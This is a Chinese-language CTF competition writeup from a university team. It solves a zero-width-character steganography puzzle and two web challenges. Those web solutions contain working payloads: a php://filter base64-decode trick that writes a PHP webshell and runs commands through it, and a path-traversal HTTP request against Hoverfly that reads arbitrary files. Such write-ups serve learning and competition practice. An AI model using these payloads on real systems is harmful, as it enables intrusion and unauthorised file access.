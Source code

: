 # 第六届“金盾信安杯”线上挑战赛 writeup
# 郑州大学 VOZ 战队 WRITEUP
## 一、战队信息
战队名称：VOZ
所属单位：郑州大学
战队成员姓名：肖永康、陈宏铭、周崇高
## 二、解题情况
![[Pasted image 20241130195518.png]]

![[Pasted image 20241130195546.png]]
## 三、解题过程
### Misc 1 大赛宗旨
#### 操作内容：
vscode打开文件，看起来是零宽字符隐写。

放到解密网站： https://www.mzy0.com/ctftools/zerowidth1/ ，进行解密。

![[20643f83d1eb5cb1327207bd975ec0c.png]]

得到结果：
```
ZmxhZ3s1ZDU1NTVmYS0xMzAzLTRiNDMtOGVlZi1kNmVhN2M2NGMzNjF9
```

看起来好像不是 flag，猜测是某种加密后的密文。

尝试后发现是 base64 encode ，放到 cyberchef 里面解密，得到 flag
#### flag值：
```
flag{5d5555fa-1303-4b43-8eef-d6ea7c64c361}
```
### Web 1 fillllll_put
#### 操作内容：
开题一看，上来就是 `<?php exit()` ，直接就死亡退出了。要想办法绕过，可以用 `php://filter`。刚开始想到 UTF-8 转 UTF-7 打乱标签，但是咱还要往里面写 PHP 一句话木马，不能这样。

于是想到可以用 `php://filter/write=convert.base64-decode/resource=...` ，对要输入的数据进行 base64 decode。注意 base64 decode 是以四个字符为一组，不属于那 64 个字符的会自动跳过。

所以对 `<?php exit();` 进行 decode 就相当于对 `phpexit` 进行解密，然后后面加个 a。

最后将一句话木马 base64 encode ，附加在 `a` 后面，构成 payload:
```url
http://121.41.16.43:54066//index.php?filename=php://filter/write=convert.base64-decode/resource=passion.php&content=aPD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=
```

寻找 `flag.txt` 文件。
```
http://121.41.16.43:54066/passion.php?cmd=find%20/%20-name%20flag.txt
```

查看 `flag.txt` 文件。
```
http://121.41.16.43:54066/passion.php?cmd=cat%20/tmp/flag.txt
```
#### flag值：
```
flag{7b3bcd08-0545-4599-a7b2-1f9bf0111944}
```
### Web 2 hoverfly
#### 操作内容
发现这好像是个 CMS，上网看看有没有公开的 exp，结果有：
https://github.com/advisories/GHSA-6xx4-x46f-f897
存在任意文件读取漏洞。

难点是找到 `flag` 到底在哪。

最后用字典爆破文件名，发现 `flag` 在 `/tmp/fa1g`。

payload:
```http
POST /api/v2/simulation HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: _tea_utm_cache_10000007=undefined

{"data":{"pairs":[{
"request":{},"response": {
"bodyFile": "../../../../../tmp/fa1g"}} ]},"meta":{"schemaVersion":"v5.2"}}
```
#### flag值：
```
flag{ec93e87b-1f0b-433f-8d3b-b1a6e077504b}
```